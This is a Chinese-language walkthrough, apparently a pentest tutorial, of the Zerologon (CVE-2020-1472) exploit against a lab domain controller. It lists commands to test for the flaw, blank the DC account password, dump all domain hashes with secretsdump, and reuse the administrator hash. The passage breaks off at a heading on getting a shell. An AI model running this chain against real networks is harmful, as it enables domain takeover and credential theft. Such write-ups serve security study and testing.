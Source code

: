 ### 1.1 安装impacket

首先安装`impacket`网络协议工具包。 `impacket`网络协议工具包:
_https://github.com/SecureAuthCorp/impacket_

![](https://gitee.com/fuli009/images/raw/master/public/20210810181240.png)

### 1.2 POC测试  

`POC`脚本地址： _https://github.com/SecuraBV/CVE-2020-1472_

`POC`测试目标漏洞是否存在：

  * 

    
    
    python zerologon_tester.py DC 192.168.31.240

![](https://gitee.com/fuli009/images/raw/master/public/20210810181246.png)

### 1.3 EXP置空密码

`EXP`脚本地址： _https://github.com/risksense/zerologon_

  * 

    
    
     python set_empty_pw.py DC 192.168.31.240

![](https://gitee.com/fuli009/images/raw/master/public/20210810181247.png)

### 1.4 获取域内hash

置空密码后获取目标域内所有`hash`：

  * 

    
    
    python secretsdump.py seep.cc/DC\$@192.168.31.240 -no-pass

![](https://gitee.com/fuli009/images/raw/master/public/20210810181248.png)

获取到域控`administrator`的`hash`，可解密得到明文密码后直接RDP，解密失败也可使用`wmiexec`，`psexec`等传递`hash`执行`cmd`。

![](https://gitee.com/fuli009/images/raw/master/public/20210810181249.png)

域控密码已被置空。

![]()

![](https://gitee.com/fuli009/images/raw/master/public/20210810181250.png)

### 1.5 利用hash获取shell
